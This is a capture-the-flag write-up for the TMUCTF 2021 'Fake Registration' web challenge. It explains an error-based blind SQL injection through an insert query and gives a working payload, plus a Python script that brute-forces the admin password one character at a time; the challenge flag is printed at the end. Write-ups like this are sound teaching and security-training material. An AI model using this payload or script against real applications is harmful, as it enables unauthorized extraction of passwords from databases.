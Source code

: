 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
In this challenge, we are given a registration page with the [server-side code](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Web/Fake%20Registration/Challenge%20Files/challenge.zip).
Open `app.py`. We see that the flag is the admin password.
In addition, the username and password entered by a user is stored in the database with an `insert` query.
Since this query is not written securely, it is possible to inject SQL commands through it.
As can be seen in the code, the length of each of the username and password fields is limited to 67.
Given this limitation, we try to obtain the correct payloads to extract information from the database.
The following payload, in addition to meeting the length limit, can help us to extract the admin password:
```
',(SELECT 1 FROM users WHERE id=1 AND substr(password,1,1)='T'))--
```
By entering this payload in the username field, the following message will be displayed to us:
<p align="center">
  <img src="Writeup Files/1.png">
</p>

As shown in this figure, the `UNIQUE constraint failed: users.username` error is shown.
So the character "T" is the correct value of the first character of the admin password.

If we run the above payload with any other character, the `NOT NULL constraint failed: users.password` error is displayed, which indicates that the character is incorrect (the character leads to an empty value for the password field).
Therefore, this payload can be run for different characters and finally, the admin password, which is the flag, is obtained.
The complete script for solving the challenge is as follows (also available in [solve.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Web/Fake%20Registration/Writeup%20Files/solve.py)).
```python
import requests

flag = []
for i in range(1, 69):
    for j in range(32, 127):
        payload = f"',(SELECT 1 FROM users WHERE id=1 AND substr(password,{str(i)},1)='{chr(j)}'))--"
        response = requests.post("http://130.185.123.246/register", data = {"username": payload, "password": "test"}, verify=False)
        if ("UNIQUE" in response.text):
            flag.append(chr(j))
            print(chr(j))
print("flag:", ''.join(flag))
```
The flag:
```
TMUCTF{P455w0rd5_mu57_b3_l0n6_4nd_c0mpl3x_l1k3_2MWn&p#FmjShTZXfAg:)}
```
